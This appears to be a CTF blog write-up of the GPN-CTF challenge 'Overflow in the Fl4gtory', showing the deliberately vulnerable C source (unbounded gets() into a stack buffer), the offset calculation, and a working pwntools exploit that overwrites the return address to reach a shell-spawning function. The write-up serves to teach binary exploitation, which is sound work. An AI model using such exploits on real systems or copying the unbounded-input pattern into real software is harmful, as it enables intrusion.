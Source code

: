 ```yaml
---
title: "GPN-CTF: Overflow in the Fl4gtory" 
date: 2023-06-10 23:32:18 +0300
categories: ["pwn", "buffer overflows"]
tags: ["easy",'ctf' , "kitctf", "gpn-ctf", "intro-to-pwn"]
author: calvin-kimani
---
```


# Background:

As an aspiring pwn enthusiast, I recently participated in the just concluded GPN CTF where I encountered some amazing but frustrating pwn challenges. 

Despite my best efforts, I was only able to solve a couple of pwn challenges during the CTF, but I remained determined to continue learning and improving my skills. 

This writeup focuses on the "Overflow in the Fl4gtory" challenge and "Overflows keep flowing", two of the pwn challenges I only managed to successfully exploit.

# Overflow in the Fl4gtory
## Challenge Description:

The "Overflow in the Fl4gtory" challenge presents a vulnerable program with a simple buffer overflow vulnerability. The objective is to exploit this vulnerability to gain control over the program and execute the shutoff() function, which will grant access to the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/overflow-in-the-fl4gtory-desc.png)


### Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflow-in-the-fl4gtory overflow-in-the-fl4gtory.c

void shutoff() {
	printf("Pipe shut off!\n");
	printf("Congrats! You've solved (or exploited) the overflow! Get your flag:\n");
	execve("/bin/sh", NULL, NULL);
}


int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

## Vulnerable code explanation
The program is simple enough. In the main() function, a buffer named buf with a size of 255 bytes (0xff in hexadecimal) is declared. The user is prompted/required to enter input by the use of `gets` **(man gets)** which is stored in buf and the written input displayed to the screen by use of `puts(buf)` **(man puts)**

Taking a closer look at the provided source code, we can observe the absence of proper input validation. The vulnerable program, utilizes the gets() function to accept user input, but it lacks proper bounds checking. This flaw allows an attacker to overflow the buffer, which in our case is `buf`, potentially altering the program's stack and controlling its execution flow.

## Exploitation

To exploit this vulnerability, we need to determine the offset required to reach the return address on the stack. When a function is called during program execution, the called function's arguments are pushed on the stack in the reverse order of how they're declared, then the caller saves the next instruction to be executed after the called function by pushing it's address on the stack. This is so that the program will know where to return to after the called function finishes executing. 

This is what is called the **return address** `ret` and is the one we want to control by overflowing `buf`. 

After the return address is saved, the current stack pointer `sp` is saved to the base-pointer `ebp` which we can now use to reference the arguments and data stored on the stack since it is "stationary". Then we reserve memory on the stack for local data and functions by subtracting a the required number of bytes from `sp` which moves it to a new location to the top of the stack. We subtract because the stack moves from high memory addresses to low memory addresses.

We can see all this by disassembling the compiled code using **objdump** :
```bash
objdump -d overflow-in-the-fl4gtory
```

![objdump](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/objdump.png)

### calculating the offset

By analyzing the output from objdump, we can see that 256 bytes **(0x100 in decimal)** are being reserved on the stack. The `buf` array is 255 bytes **(0xff)** but since it is a `char` array the last byte is a null which shows the end of the string. We need to fill `buf` with 256 bytes and then overflow the base pointer `$rbp` which is 8 bytes.

Now we know our return address is 264 bytes(256+8) from the vulnerable buffer, so we craft a payload consisting of 264 bytes of padding followed by the address of the shutoff() function. 

In this case, we use the pwn library in Python to assist in building the payload and interacting with the target program.

```python
from pwn import *

context.terminal = ["alacritty", "-e"] # Substitute your terminal

## Locate the address of shutdown
elf = ELF("./overflow-in-the-fl4gtory")
shutoff_addr = elf.symbols["shutoff"]

## Create Payload
payload = b"A"*264+p64(shutoff_addr)

target = remote('overflow-in-the-fl4gtory-0.chals.kitctf.de', 1337, ssl=True)
target.sendline(payload)

## Profit $$
target.recv()
target.interactive()

```

### reading the flag

After constructing the payload, we establish a connection to the target server using the provided IP address and port. We then send the payload to the program. Upon successful exploitation, the shutoff() function will be executed, and we can read the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/overflow-in-the-fl4gtory.png)

By leveraging the buffer overflow vulnerability in the "Overflow in the Fl4gtory" challenge, we successfully gained control over the program's execution flow and executed the shutoff() function to obtain the flag.


>Writeup for "Overlows keep flowing" coming soon..
{: .prompt-tip }